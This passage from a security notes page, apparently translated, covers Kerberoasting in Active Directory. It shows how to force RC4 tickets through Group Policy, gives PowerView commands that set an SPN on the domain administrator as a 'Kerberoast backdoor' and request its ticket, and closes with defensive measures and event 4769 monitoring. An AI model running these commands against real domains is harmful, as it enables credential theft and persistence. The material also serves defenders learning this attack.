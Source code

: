 > On the management server, go to **Local Group Policy Editor** > **Computer Configuration** > **Windows Settings** > **Security Settings** > **Local Policies** > **Security Options** > **Network security: Configure Kerberos encryption types allowed** > **Enable RC4**.
>
> Run the `gpupdate /force` command in an elevated command prompt to ensure that the changes have been made.

Although both sides support AES encryption, a TGS ticket encrypted with RC4 (encryption type `0x17/23`) is still returned. Note that SOC may be monitoring tickets encrypted with RC4.

![QQ录屏20220925192711](../../.gitbook/assets/QQ录屏20220925192711.gif)



## Kerberoast Backdoor

Register an SPN service with administrative privileges.

```
Set-DomainObject -Identity sectest.com\administrator -Set @{serviceprincipalname="a/b"}
Get-DomainUser -Identity sectest.com\administrator | Get-DomainSPNTicket
```

![QQ录屏20220925200407](../../.gitbook/assets/QQ录屏20220925200407.gif)

Clearing SPNs:

```sql
Set-DomainObject -Identity sectest.com\administrator -clear serviceprincipalname
```



## Preventive Measures against Kerberoast Attacks

1. Enforce AES256_HMAC encryption for Kerberos tickets.
2. Strengthen password policies: Kerberoast attacks are mainly based on brute-forcing passwords, so strengthening password policies can effectively reduce the success rate of attacks. It is recommended to use long, complex, random passwords and to periodically change and force updates to passwords.
3. Disable unnecessary accounts and services: Disabling or restricting accounts and services that do not require pre-authentication can effectively reduce the risk of Kerberoast attacks. These accounts and services typically include IIS, Exchange, SQL Server, SharePoint, and others.

**When conducting log audits, it is recommended to focus on the time when ID 4769 (request for Kerberos service tickets) is recorded. If there are too many 4769 logs, further investigation should be carried out to determine if there is malicious behavior in the system.**
